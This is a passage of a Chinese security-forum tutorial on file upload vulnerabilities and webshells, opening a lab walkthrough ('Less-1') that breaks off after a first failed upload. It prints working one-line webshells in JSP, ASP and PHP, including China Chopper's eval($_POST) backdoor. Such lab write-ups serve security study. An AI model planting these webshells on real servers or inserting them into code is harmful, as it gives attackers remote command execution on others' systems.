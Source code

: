 

# 论文件上传绕过的各种姿势 - 先知社区

论文件上传绕过的各种姿势

- - -

先来介绍下文件上传漏洞  
**一. 什么是文件上传漏洞**

> Web应用程序通常会有文件上传的功能, 例如在 BBS发布图片 , 在个人网站发布ZIP 压缩 包, 在办公平台发布DOC文件等 , 只要 Web应用程序允许上传文件, 就有可能存在文件上传漏洞

**二.什么样的网站会有文件上传漏洞**

> 大部分文件上传漏洞的产生是因为Web应用程序没有对上传文件的格式进行严格过滤 , 还有一部分是攻击者通过Web服务器的解析漏洞来突破Web应用程序的防护, 后面我们会讲 到一些常见的解析漏洞, 最后还有一些不常见的其他漏洞, 如 IIS PUT漏洞等

**三.文件上传漏洞的危害**

> 上传漏洞与SQL注入或 XSS相比 , 其风险更大 , 如果 Web应用程序存在上传漏洞 , 攻击者甚至可以直接上传一个webshell到服务器上  
> 
> - - -

关于**webshell**

> webshell是以asp、php、jsp等网页文件形式存在的一种命令执行环境，也称其为一种网页后门。一般说来，当Hacker入侵一个网站后，会把这些asp、php木马的后门文件放在该网站的web目录中，和正常的网页文件混杂，其命名可能和正常的文件命名很类似，让人无法第一眼通过文件名判断其为后门文件。然后呢，他就可以利用web请求的方式，用asp或者php木马后门控制网站服务器，包括上传下载文件、查看数据库、执行任意程序命令等一系列操作。

**webshell**的分类

> 1.根据文件大小分类：大马和小马(通常指的是一句话木马，能够使用菜刀这类工具去直接连接它)  
> 2.根据脚本名称分类：jsp、asp、aspx、php

几种经典的**webshell:**

1）jsp的简单的webshell:

```plain
<%Runtime.getRuntime().exec(request.getParameter("i"));%>
```

2）asp的简单的webshell:

```plain
success!!!!<%eval request("cmd")%>
```

3）php的简单的webshell:

-   php经典一句话: `<?php echo shell_exec($_GET['cmd']);?>`
    
    -   中国菜刀：`<?php @eval($_POST['自定义密码']);?> 然后连接菜刀就能直接进服务器了`
    
    好了介绍完这些就开始做题吧(。・∀・)ノ,
    
    - - -
    

**Less-1**  
[![](assets/1698897315-012463d3537f5c536181dcd81201aad3.png)](http://img-blog.csdnimg.cn/2019080418580531.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzNTMxNjY5,size_16,color_FFFFFF,t_70)  
先在本地新建一个webshell文件，然后上传webshell 发现失败  
